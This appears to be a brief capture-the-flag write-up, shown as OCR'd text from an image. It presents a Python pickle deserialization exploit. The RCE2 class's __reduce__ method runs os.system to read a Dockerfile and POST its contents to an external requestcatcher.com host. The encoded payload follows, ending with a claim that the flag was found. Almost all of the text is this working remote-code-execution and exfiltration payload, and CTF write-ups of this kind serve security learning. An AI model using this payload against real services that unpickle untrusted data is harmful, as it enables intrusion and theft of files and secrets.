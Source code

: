 ```python
import pickle
import os
import base64



class RCE2:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.post(f'https://skjeks.requestcatcher.com/',data={1:os.popen('cat Dockerfile').read()})\""
        return os.system, (cmd,)


payload=pickle.dumps(RCE2())
base64.b64encode(payload)

```

payload:

`gASVoQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjIZweXRob24zIC1jICJpbXBvcnQgb3M7aW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLnBvc3QoZidodHRwczovL3NramVrcy5yZXF1ZXN0Y2F0Y2hlci5jb20vJyxkYXRhPXsxOm9zLnBvcGVuKCdjYXQgRG9ja2VyZmlsZScpLnJlYWQoKX0pIpSFlFKULg==`

and we got out flag

## flag found
